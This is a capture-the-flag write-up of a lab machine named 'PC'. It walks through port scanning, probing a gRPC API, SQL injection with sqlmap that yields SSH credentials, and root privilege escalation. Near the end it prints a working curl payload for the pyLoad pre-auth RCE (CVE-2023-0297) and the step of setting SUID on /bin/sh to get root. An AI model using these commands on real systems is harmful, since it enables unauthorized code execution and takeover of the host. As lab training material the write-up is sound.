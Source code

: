 ```yaml
---
title: PC
updated: 2023-07-05 21:02:51Z
created: 2023-07-05 16:12:51Z
latitude: 45.53264760
longitude: 9.03961220
altitude: 0.0000
---
```


## PORTS
* **22** [SSH]
* **50051** [UNKNOWN]

In my case the **<u>standard nmap scan</u>** and the **<u>sC + sV + -p-</u>** didn't work ("Host seems down") so I had to add the **-Pn** flag to have some results. This could mean a network filter or a firewall is in the middle interfering with the host discovery.

So there is nothing about a webapp (for now) so we need to focus on port **50051** and discover why is open, what is running and how we can use it. I used firefox to access directly to that port and this is what I had

![1.png](img/1.png)

Interesting, I used some comparison tool of different decoder online but nothing interesting, with some quick research the port 50051 is usually connected to **<u>gRPC protocol** (Google Remote Procedure Call)</u>.

I found this [tool](https://github.com/fullstorydev/grpcurl) that can help me to interface with this protcol

![2.png](img/2.png)

So this is the 2 app running, the last one seems something standard but the first one can help us, with **grpcurl "describe" option** we can get some more info

![3.png](img/3.png)

![5.png](img/5.png)


Let's focus on SimpleApp, we can login, register or get information I would use the last option so we can gain more information about it, using curl should not be hard to get a response

![4.png](img/4.png)

We need to specify the HTTP version otherwise an error will occur and sadly the output is not in plaintext and I can't define the encoding, cool thing is that there is GUI version of grpcurl called **gprcui** let's try using it and see if the output would be more clear, the standard usage is simple `grpcui --plaintex [IP]:[PORT]`

![6.png](img/6.png)

Ok, this tool is awsome make the use of gprcurl simplier and encode automatically so we can interract with the API now.

The `.getInfo` return me an error telling me no token as been set, so I decided to create an account with `RegisterUser` and than use `LoginUser` to access and here we are

![7.png](img/7.png)

So I decoded the token and is just the base64 encoding of the following JWT 

![8.png](img/8.png)

Than for the `getInfo` we just need to specify the ID as parameter and on "MetaData" section set the value `token:[TOKEN_VALUE]` and the output is quite strange....

![9.png](img/9.png)

So the flow is right but something is wrong, I tried to fuzz some dummy credentials manually and `admim:admin` worked so let's try to get the info with this token and....same output (uff). I took some time to think about what's wrong here I thought about an **SQL Injection** but idk how to exploit it. My bad here but I look at some writeup and there was this method to make the SQL injection through `SQLmap` : I just need to save the request file (.req) and use that as paramter of SQLmap flag `-r`, cool I learned a new thing.

The results of SQLmap tell us that the dbms is **SQLite** and the injectable parameter is **id** and here is the full dump, we got some ssh credentials

![10.png](img/10.png)

Let's get inside and with linpeas I found this process going on

![11.png](img/11.png)


The `app.py` is what we where interfacing through gRPC so is nothing that can help us with priv-esc.

More curios about `pyload` which is a download manager written in python I checked the version is `0.5.0` and pretty interesting is there is a RCE affecting this version (**[CVE-2023-0297](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad#exploit-code)**)

I've tried a simple command to be sure it works and yes here we are, we can execute RCE with root privilege

```
`curl -i -s -k -X $'POST' \
     --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/bho2");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
     $'http://127.0.0.1:8000/flash/addcrypted2'
```

![12.png](img/12.png)

Now the process is simple, I've just injected the command `chmod u+x+s /bin/sh` and than execute `/bin/sh -p`, et voila' we got access as **root**. Machine completed!
